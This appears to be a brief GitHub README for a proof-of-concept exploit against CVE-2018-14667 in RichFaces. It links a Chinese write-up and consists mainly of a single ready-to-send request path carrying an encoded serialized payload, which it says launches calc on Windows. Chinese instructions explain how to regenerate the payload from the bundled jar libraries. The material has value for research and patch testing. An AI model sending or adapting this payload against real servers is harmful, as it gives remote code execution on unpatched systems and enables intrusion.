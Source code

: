 # CVE-2018-14667
detail:https://xz.aliyun.com/t/3264
poc 
calc(windows)：
</br>
/DATA/eAHFlc9PE0EUx4cqyg9!oBARjUldjRRjZsHgAbEJCRo1KZJQQIWDmW5f26mzP5idbTcSFA9evBhEb968wsmzEY3xYOKFv0APxhhjQky8GmdmSyuNeuDSnmZ3337fe5!v29eV76jZ5-i0y!OYFEk4WPRzmIPvBtwCPOUDn6hcnJzi9CIRBKlf57lvMbQzhfZaHIiAUdcR4AiBDqaKpERMRpy8OZ4pgiWGU2g3hB6VmnPoLmpKoRbbzdIchWzlurlEWAD6IvRkLaeURIhzxAIfW67tuY7UxmkhE11xWRZ4mpSA33z!Irn87MNYDMVSqNVixPevERu21pAWnDp5WUObL9!Jag2BDkVVUtdMA6eE0Tskw2A49FT6XpkS-4GjC2AgfAwMT5L8GIiCm70UerITn7qO5oBQ0x6EQo56oqJlaH3cXKq7febRp42YjuusxtWUnj94mP4xs35BRagKhpQZnFqFCEFAMfE8Ri0iZNqIQ32S61yGAMeJp!fPr0x81ky6MsSHyIRaLoGO6OZDE5g5rcDXnklMuzzCtZFHa1H1uYZD5VWLLDSuCi1mXF8zqlO7antsaHWh7cay6I0YHa72Xhdabluc!bj2a0kBUNqt5SeofGKew1wAvsB5EKPK3kRf9ZhyiZwDeYPJQ!TQUOpYTR6eCBxBbTB0fFR-wpAqtfvUKbm3IeEEjPVhCMFKGBZhltG38B8nPS-UTR!f0nQ9HNV1ZqP7Z!vrA2Oqa42qPN-4dlDAUeesdjOCU!kkVtenv3w9Nn9ZD52c5ZhAXZogdfF4ILxAyEAgtkAdNbDRNEkO5XforVkdUdOGLCXRWyaERDIA3yx6kE!rMw4Lwmbxkf4z!fGRgYGzA4NJY8viSDbIbCPUS2mHXjv!-O7rZvXPz16Z26EV9peX0L0GNRGHaL2ifdqoQFCG5aIGZdMbtLY9mwpyXd7KBU7SqKg33iJFu6dC-zFabBTtzX-vv-F-hV5uD3cx8EXS2JRuHGuBWpTzk3Lt!gZHm9YF.jsf

重新生成poc的方法：
将lib下的所有的jar包导入到你新建的java项目中，利用文中给出的java代码重新生成poc
